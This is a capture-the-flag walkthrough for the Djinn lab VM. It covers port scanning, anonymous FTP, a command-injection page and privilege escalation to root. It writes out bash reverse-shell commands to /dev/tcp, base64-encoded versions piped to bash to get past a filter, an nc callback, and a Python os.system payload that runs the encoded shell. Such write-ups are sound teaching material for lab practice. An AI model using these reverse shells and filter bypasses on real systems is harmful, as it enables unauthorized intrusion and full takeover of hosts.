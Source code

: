 # Djinn-walkthough

## Tool:Vmware,nmap,nikto,nc

Use nat type and discover the host by:

```bash
discover -r 
```

## Information Gathering

### Port scan

Use nmap to do a full scan on the target. Use command:

```bash
 nmap -Pn -sS —stats-every 3m —max-restries 1 —max-scan-delay 20 —defeat-rst-ratelimit -T4 -p- [ip]
```

We can notice that there is no http port opened.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled.png)

Do detail scan on those ports.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%201.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%201.png)

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%202.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%202.png)

FTP can be accessed by anonymous, and 1337 is a interesting port and 7331 is a http port.

### FTP anonymous login

Use ftp to login the target

```bash
ftp [ip]
```

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%203.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%203.png)

Download these 3 txt file.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%204.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%204.png)

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%205.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%205.png)

### Use telnet to connect 1337

```bash
telnet [ip] 1337
```

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%206.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%206.png)

It is a game to get a simple calculation result, It shows that after 1000 times can get some information, maybe I should write a script to do this 1000 times.

Try other ports first.

Use nikto to scan the 7331.

```bash
nikto -h [ip] -p 7331
```

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%207.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%207.png)

found a web structure named wekzeug. Google that, and get a vuln 43905 on exploit-db. Try this.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%208.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%208.png)

It doesn't work due to the debug is not enabled.

Use dirsearch to scan this.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%209.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%209.png)

Got two pathes.

Browser those and found this below.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2010.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2010.png)

It is a typical command execute vuln. Try to reverse a shell to local.

I found that it can only execute some simple order, maybe the order is filtered. try base64 encode bypass.Encode this.

```bash
bash -i >& /dev/tcp/[ip]/443 0>&1
```

use the encoded string.

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMi4xNDMvNDQzIDA+JjEKCg==|base64 -d |bash
```

listen 443 on local. execute that command.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2011.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2011.png)

Get shell

## Privilege  escape

Look for the suid command.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2012.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2012.png)

no noticable info found.

Tried switch to nitish use the password that creds.txt provided, failed.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2013.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2013.png)

use sudo -l, no password for www-data.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2014.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2014.png)

Get in to home page.found two users.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2015.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2015.png)

Try to show the hidden files.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2016.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2016.png)

Another creds.txt found, this time the password is in that.

Switch into that.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2017.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2017.png)

Use sudo -l

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2018.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2018.png)

It seems that I should change to user sam.

Try to understand the "genie" command. use "man" command to see the detail of "genie".

finally, found that the way to choose to sam.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2019.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2019.png)

Use sudo -l again.

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2020.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2020.png)

Try to understan how to get root by "lago"

Find a pyc file of lago in sam folder.

Use uncomyple6 to decompile this file, and we can know the the to execute lago and get root.

There is another way to get root by 1337, the > in the game seems like the command line. Got this, you can know this is a python command line. so use python script to get root

![Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2021.png](Djinn-walkthough%2080625056d02944378eadef893e6e3e21/Untitled%2021.png)

```python
**import**("os").system("nc [ip] 444")
```

By the command, I can get a connect from the target, It proved that this can be the way to root, so change the command,

```python
**import**("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMi4xNDUvNDQ0IDA+JjE= |base64 -d |bash")
```

get root.
